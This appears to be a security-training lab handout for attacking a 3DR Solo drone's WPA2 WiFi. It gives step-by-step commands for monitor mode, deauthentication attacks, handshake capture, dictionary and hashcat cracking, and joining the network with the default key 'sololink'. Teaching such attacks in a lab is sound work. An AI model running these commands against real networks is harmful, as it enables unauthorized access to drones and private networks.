

# Lab: Cracking Wireless Communications

**Type:** Lab
**Duration:** 60 minutes
**Section:** Day 2 – RF Communications

---

## Objectives

- Capture a WPA2 4-way handshake from the drone's GCS WiFi network
- Crack the captured handshake with a dictionary attack
- Apply the narrow channel bandwidth technique to improve capture speed
- Gain unauthorized access to the drone network using the cracked key

---

## Prerequisites

- Kali Linux laptop
- TP-Link USB WiFi adapter (supports monitor mode)
- Target: 3DR Solo SoloLink WiFi 

---

## Background: WPA2 Authentication

WPA2-PSK (Pre-Shared Key) authentication uses a 4-way handshake to derive session keys:

```
Client                           AP
  |                               |
  |--- Association Request ------>|
  |<-- ANonce (random) -----------|   (Message 1)
  |--- SNonce + MIC ------------->|   (Message 2)
  |<-- GTK + MIC (encrypted) ----|   (Message 3)
  |--- ACK --------------------- >|   (Message 4)
```

The **4-way handshake** is captured from the air. The PSK can then be brute-forced offline because:
1. The attacker captures messages 1 and 2 (both contain public nonces)
2. The PSK is used to derive the PMK and then the PTK
3. An attacker can test candidate passwords: PMK = PBKDF2(HMAC-SHA1, password, SSID, 4096, 256)

---

## Phase 1: Kali USB passthrough
In VirtualBox you need to confgure the USB passtrough to be able to see the WiFi card in your Kali Linux.

- Find the devices menu in VirtualBox and click on `Realtek 802.11ac WLAN Adapter`



---

## Phase 2: Setup Monitor Mode

```bash
# Check your WiFi adapters
iwconfig
ip link show

# Identify the TP-Link adapter (usually wlan1)
# Kill processes that interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode on the TP-Link adapter
sudo airmon-ng start wlan1

# Verify monitor mode is active
iwconfig
# Should show wlan1mon (or similar) in Monitor mode
```

---

## Phase 2: Survey the Wireless Environment

```bash
# Scan for available networks
sudo airodump-ng wlan1mon

# Look for your target:
# BSSID: (MAC address of Solo/Specta AP)
# ESSID: SoloLink_XXXXXXXX or SpectraXXXXXX
# CH: channel number
# ENC: WPA2

# Note the BSSID and channel for your target
```

---

## Phase 3: Capture the 4-Way Handshake

```bash
# Start targeted capture (replace with your target values)
sudo airodump-ng wlan1mon \
    --bssid <TARGET_BSSID> \
    --channel <TARGET_CH> \
    --write solo-handshake

# airodump-ng will write files:
# solo-handshake-01.cap  (packet capture)
# solo-handshake-01.csv  (scan log)
```
--- 

## Trigger the handshake

**Option A — wait**
- Wait for a device to connect or reconnect to the AP
- This can take several minutes

**Option B — deauth attack**
```bash
# In a separate terminal: send deauth packets to force reconnection
sudo aireplay-ng --deauth 3 -a <TARGET_BSSID> wlan1mon
# -a: AP BSSID
# Sends 3 deauthentication frames → client will reconnect → handshake captured
```

**In airodump-ng output, look for:**
```
[ WPA handshake: XX:XX:XX:XX:XX:XX ]
```
This confirms the handshake was captured.

---

## Phase 4: Crack the Handshake (1/3)

### Option A: Dictionary Attack

```bash
# Use rockyou.txt wordlist (included in Kali)
sudo aircrack-ng solo-handshake-01.cap \
    -w /usr/share/wordlists/rockyou.txt \
    -e SoloLink_XXXXXXXX

# If successful:
# KEY FOUND! [ sololink ]
```
## Phase 4: Crack the Handshake (2/3)
### Option B: Custom Wordlist

Create a targeted wordlist based on OSINT about the target:

```bash
# Using crunch to generate all 8-character numeric passwords
crunch 8 8 0123456789 > custom-wordlist.txt

# Using cewl to generate words from a website
cewl https://3dr.com -d 2 -m 5 > 3dr-wordlist.txt

# Combine lists
cat rockyou.txt 3dr-wordlist.txt > combined.txt

aircrack-ng solo-handshake-01.cap -w combined.txt -e SoloLink_XXXXXXXX
```
## Phase 4: Crack the Handshake (3/3)
### Option C: hashcat (GPU accelerated)

```bash
# Convert cap file to hashcat format
hcxpcapngtool -o hash.hc22000 solo-handshake-01.cap

# Run hashcat (WPA2 = mode 22000)
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```

---

## Phase 5: Narrow Channel Bandwidth Technique

Some WiFi adapters have trouble capturing full 20/40 MHz channel width frames. The **narrow channel bandwidth** technique reconfigures the AP to use a narrower channel width, making capture more reliable.

**How it works:**
1. Access the target router's admin interface (possible if you have credentials from a prior step)
2. Set channel bandwidth to 5 MHz or 10 MHz
3. This reduces the signal bandwidth — easier to capture with a narrower-filter SDR

```bash
# If you have access to the OpenWRT router (GL.iNet from the UART lab):
ssh root@192.168.8.1

# Edit wireless config
vim /etc/config/wireless
# Find: option htmode 'HT20'
# Change to: option chanbw '10'
# Apply:
wifi

# On Kali, configure adapter to match narrow channel
iwconfig wlan1mon channel 6
# Use airmon-ng with the narrower channel
sudo airodump-ng wlan1mon --channel 6
```

---

## Phase 6: Connect with Cracked Password

```bash
# Stop monitor mode
sudo airmon-ng stop wlan1mon

# Connect to target WiFi with cracked password
nmcli dev wifi connect "SoloLink_XXXXXXXX" password "sololink"

# Verify connectivity
ip a
ping 10.1.1.1
```

---

## Discussion Questions

1. How long did the crack take? What does this tell you about password complexity requirements?
2. The default SoloLink password is `sololink` — how would you find this without cracking?
3. What would make this WiFi network significantly harder to crack?
4. At what point in the attack chain does RF-layer security fail vs. application-layer security?
